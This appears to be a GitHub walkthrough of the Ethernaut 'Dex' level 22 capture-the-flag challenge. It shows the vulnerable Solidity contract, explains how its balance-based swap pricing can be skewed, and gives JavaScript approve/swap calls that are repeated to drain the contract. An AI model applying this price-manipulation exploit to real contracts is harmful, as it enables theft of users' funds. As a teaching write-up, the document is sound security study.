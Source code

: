 # Ethernaut Dex Level 22 Solution
This Project is a short walkthrough of the Ethernaut Dex level 22.

``` solidity
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
  function approve(address owner, address spender, uint amount) public returns(bool){
        super._approve(owner, spender, amount);
    }
}
```

You might want to read these articles before moving to the solution:
1. [ERC20 Approve/Allow Explained](https://medium.com/ethex-market/erc20-approve-allow-explained-88d6de921ce9)
2. [How does “swap” work between ERC20 tokens?](https://ethereum.stackexchange.com/a/92523/71430)

### Solution:

To solve this Level you only have to focus on this method:

```solidity
function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```
The Initial balance of the contract for both tokens is 100.
`get_swap_price()` calculates the token price using the contract token balance. This method wil
```solidity
(amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this))
```
This will return the same swap price i.e 10 token1 can be swapped 10 token2. 

To hack this method you have to break the equilibrium of the contract token balance.

You have to perform the following steps to yield higher swap price

- call `approve()` with token2 balance
```javascript
await contract.approve(
  instance,
  Number((await contract.balanceOf(token2address, instance)).toString())
)
```  
- call `swap()` with these parameters
```javascript
  await contract.swap(
  token2address,
  token1address,
  Number((await contract.balanceOf(token2address, instance)).toString())
  )
```
- Now, Your token2 balance is 0 and token1 balance is 20. If you check the `get_swap_price()` You can get 24 token2 by swapping with 20 token1
- call `approve()` with token1 balance
```javascript
await contract.approve(
  instance,
  Number((await contract.balanceOf(token1address, instance)).toString())
)
```
- call `swap()` with these parameters
```javascript
  await contract.swap(
  token1address,
  token2address,
  Number((await contract.balanceOf(token1address, instance)).toString())
  )
```

Repeat these step until you reduced the contract balance of either token to 0.


(Note: You might get this error `ERC20: transfer amount exceeds balance`.
This is because the contract do not have enough balance for the token you are requesting. You can reduce the swap amount to handle this)
